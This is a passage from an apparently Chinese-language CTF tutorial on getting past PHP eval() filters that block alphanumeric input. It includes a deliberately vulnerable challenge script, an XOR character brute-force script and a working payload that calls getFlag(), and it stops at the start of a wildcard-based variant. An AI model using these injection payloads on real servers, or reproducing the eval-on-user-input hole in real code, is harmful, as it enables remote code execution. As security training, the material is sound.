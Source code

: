 典型代码：
```php
<?php

include'flag.php';

if(isset($_GET['code'])){
   $code=$_GET['code'];
   if(strlen($code)>50){
       die("Too Long.");
  }
   if(preg_match("/[A-Za-z0-9_]+/",$code)){
       die("Not Allowed.");
  }
   @eval($code);
}else{
   highlight_file(__FILE__);
}
//$hint = "php function getFlag() to get flag";
?>
```

这种方法的核心是**字符串的异或操作**。

爆破脚本：
```php
chr1 = ['@', '!', '"', '#', '$', '%', '&', '\'', '(', ')', '*', '+', ',', '-', '.', '/', ':', ';', '<', '=', '>', '?', '[', '\\', ']', '^', '_', '`', '{', '|', '}', '~']
chr2 = ['@', '!', '"', '#', '$', '%', '&', '\'', '(', ')', '*', '+', ',', '-', '.', '/', ':', ';', '<', '=', '>', '?', '[', '\\', ']', '^', '_', '`', '{', '|', '}', '~']

for i in chr1 :
    for j in chr2 :
        print(i + 'xor' + j + '=' + (chr(ord(i) ^ ord(j))))
```

根据题目的要求，用异或出来的字符串拼出合适的Payload，并放在PHP变量中执行。变量名可以用中文。

比如这道题的
```php
Payload：?code=$啊="@@^|@@@"^"'%*:,!'";$啊();
```

#### Linux通配符绕过正则匹配

典型代码如下，与前一种题目非常相似，但也不大一样：

```php
<?php

if(isset($_GET['code'])){
   $code=$_GET['code'];
   if(strlen($code)>50){
       die("Too Long.");
  }
   if(preg_match("/[A-Za-z0-9_$]+/",$code)){
       die("Not Allowed.");
  }
   @eval($code);
}else{
   highlight_file(__FILE__);
}
//flag in /
?>
```

